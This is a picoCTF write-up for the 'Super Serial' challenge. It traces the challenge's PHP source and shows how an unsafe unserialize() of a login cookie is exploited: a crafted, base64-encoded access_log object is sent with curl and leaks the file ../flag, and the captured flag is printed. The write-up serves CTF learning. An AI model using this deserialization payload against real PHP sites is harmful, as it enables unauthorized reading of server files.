 # Super Serial  

Eric Errickson  
**picoCTF**
*January 20th, 2022*  
  
Our Challange:  

![alt text](https://github.com/ericerrickson/picoCTF/blob/main/SuperSerial/SuperSerial.png?raw=true "Description: Try to recover the flag stored on this website http://mercury.picoctf.net:2148/")  
*Description: Try to recover the flag stored on this website <http://mercury.picoctf.net:2148/>*  

First Steps:  
Looking at the [source](https://github.com/ericerrickson/picoCTF/blob/main/SuperSerial/index.html), the only item of interest is a reference to [index.php](https://github.com/ericerrickson/picoCTF/blob/main/SuperSerial/index.php), but there is nothing useful there either.

A look at *robots.txt* gives us:  
 ```
 Disallow: /admin.phps
 ```  
 which is interesting so let us look at it.  

```
└─$ curl http://mercury.picoctf.net:2148/admin.phps
Not Found
```
Interesting. It did not disallow **admin.phps** so we can try that.  
```bash
└─$ curl http://mercury.picoctf.net:2148/index.phps  
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
                setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
                header("Location: authentication.php");
                die();
        } else {
                $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
}
?>
```  
OK, now we are getting somewhere. We have references to ***cookie.php*** and to ***authentication.php***, neither of which we can access directly, but we can access their source at [***/cookie.phps***](https://github.com/ericerrickson/picoCTF/blob/main/SuperSerial/cookie.phps) and at [***/authentication.phps***](https://github.com/ericerrickson/picoCTF/blob/main/SuperSerial/authentication.phps).  

So, the `Permissions` object created by ***index.php*** with  
 ```php
$perm_res = new permissions($username, $password);
```  
Is checked against a database by ***authentication.php***  
```php
        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
```
If this check is passed, that object gets cached in a cookie by URL encoding, Base-64 encoding, and then serializing it.  
```php
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
```
***Cookie.php*** will deserialize and evaluate that cookie on the next login.  
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
We can exploit this because the cookie is client-side and we can feed the server anything that we want it to deserialize for us. The hint told us the flag is at ***../flag***

We can borrow the access_log class from ***authentication.php***
```php
class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}
```  
...and bolt on a couple of lines of php to serialize "../flag"
```php
$perm_res = new access_log("../flag");
$perm_res_encoded =  urlencode(base64_encode(serialize($perm_res)));
echo $perm_res_encoded;
echo "\n";
```
When we run this script it yields  
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
``` 
When we feed that to the server it will begin to evaluate it by deserializing it back to *"../flag"* and that will work just fine, but when it goes to the next step to evaluate the object, it is going to fall over since our object does not possess any of the methods it is looking for. When that happens that *catch* is going to be called and print out "*Deserialization error*" and append our flag to it using the *access_log.__toString()* method.

```php
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```
### The Payoff  

```bash
└─$ curl http://mercury.picoctf.net:3449/authentication.php -H "Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9;"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}┌
```


